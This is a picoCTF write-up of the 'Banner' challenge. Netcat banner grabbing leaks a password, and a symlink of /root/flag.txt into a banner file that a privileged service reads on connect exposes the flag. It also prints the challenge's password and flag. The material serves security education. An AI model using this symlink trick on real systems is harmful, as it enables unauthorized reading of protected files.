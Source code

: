 # Overview 
Category: [General Skills]()

AUTHOR: LOIC SHEMA / SYREAL

# Description
Can you abuse the banner?
Additional details will be available after launching your challenge instance.

# Solution
- **we're going to start by exploring the leaked information from the initial server by netcatting that host and port**
  
    ┌──(kali㉿kali)-[/]
    └─$ nc tethys.picoctf.net 64478

SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234

- **The Exploit**
  
  So now we have a password, we can see what it comes. We will step through a bit of questions and answers available on Google.

    ┌──(kali㉿kali)-[/] 
    └─$ nc tethys.picoctf.net 54610      


\*************************************

\*\*\*\*\*\*\*\*\*\*\*\*WELCOME\*\*\*\*\*\*\*\*\*\*\*\*

\*************************************

    what is the password? 
    My_Passw@rd_@1234
    What is the top cyber security conference in the world?
    DEFCON
    the first hacker ever was known for phreaking(making free phone calls), who was it?
    John Draper
    player@challenge:~$ ls
    banner text

>player@challenge:~$ cat banner

\*************************************

\*\*\*\*\*\*\*\*\*\*\*\*WELCOME\*\*\*\*\*\*\*\*\*\*\*\*

\*************************************

=> It is the code when I opened the connection

    player@challenge:~$ cat text
    keep digging

Now move to the root directory and get the flag?

    player@challenge:~$ cd /root
    player@challenge:/root$ ls
    flag.txt  script.py
    player@challenge:/root$ cat flag.txt
    cat: flag.txt: Permission denied

We have no permission to read it.We can try to symlink the flag to take the place of the banner, and see if it’s being read by something with a higher privilege level.

    player@challenge:/root$  ln -s /root/flag.txt ~/banner
    ln: failed to create symbolic link '/home/player/banner': File exists
    player@challenge:/root$ rm ~/banner
    player@challenge:/root$  ln -s /root/flag.txt ~/banner
    player@challenge:/root$ cd ~
    player@challenge:$ cat ~/banner
    cat: /home/player/banner: Permission denied

We still can’t cat this banner out, but it was served when we connected before, so what if we simply disconnect and reconnect?

    ┌──(kali㉿kali)-[/]
    └─$ nc tethys.picoctf.net 54610

**picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_ed6f9c71}**

